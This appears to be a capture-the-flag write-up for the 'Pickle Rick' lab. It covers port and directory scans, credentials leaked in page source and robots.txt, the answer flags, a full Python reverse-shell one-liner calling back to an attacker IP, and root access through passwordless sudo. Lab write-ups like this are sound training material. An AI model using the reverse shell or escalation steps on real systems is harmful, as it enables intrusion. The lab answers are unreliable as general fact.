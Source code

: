 # Pickle Rick

* IP=10.10.61.126

## Nmap scan report:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 0a:0c:98:e3:b0:cc:bb:31:bb:9b:d1:72:4d:d5:19:9b (RSA)
|   256 f0:0c:16:42:28:8c:e5:20:c0:a1:74:60:23:37:8a:27 (ECDSA)
|_  256 8f:fe:50:7c:08:6c:24:d8:25:af:4d:f5:3b:e0:53:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## GoBuster report:
```
=====================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)

```
### Login Creds at /login.php:
```
Username: R1ckRul3s
robots.txt: Wubbalubbadubdub (password)
```
## Questions/Tasks:

1. What is the first ingredient Rick needs?
```bash
while read line; do echo $line; done < Sup3rS3cretPickl3Ingred.txt
```
OR
```bash
grep . Sup3rS3cretPickl3Ingred.txt
```
Ans- mr. meeseek hair

2. Whats the second ingredient Rick needs?

* Python3 reverse shell:
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.50.128",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* Navigate to /home/rick
* file contents:
```bash
$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```
```
cat 'second ingredients'
```
Ans- 1 jerry tear

3. Whats the final ingredient Rick needs?

* Check sudo permissions(commands that can be run with sudo)
```bash
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-61-126.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-61-126.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
* Since sudo is set to no password, hence we can escalate privileges just by:
```bash
sudo bash
```
* Navigate to /root and find the 3rd.txt

Ans- fleeb juice
